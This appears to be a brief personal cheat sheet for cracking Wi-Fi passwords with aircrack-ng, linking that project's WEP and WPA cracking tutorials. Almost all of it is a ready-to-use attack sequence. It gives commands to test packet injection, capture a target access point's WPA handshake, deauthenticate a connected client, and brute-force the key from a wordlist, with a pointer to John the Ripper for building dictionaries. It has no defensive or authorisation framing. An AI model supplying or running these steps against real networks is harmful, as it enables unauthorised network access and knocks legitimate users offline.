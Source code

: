 https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
https://www.aircrack-ng.org/doku.php?id=cracking_wpa

Scan for networks
> `aireplay-ng --test mon0`

Collect auth handshake
> `airodump-ng -c CHANNEL --bssid MAC -w psk mon0`

Try to deauth a client
> `aireplay-ng -0 1 -a AP_MAC -c CLIENT_MAC mon0`

Try to crack the pass
> `aircrack-ng -w password.lst -b AP_MAC psk*.cap`

Uses the contents of password.lst to crack the key. Look into John The Ripper to generate dictionary.
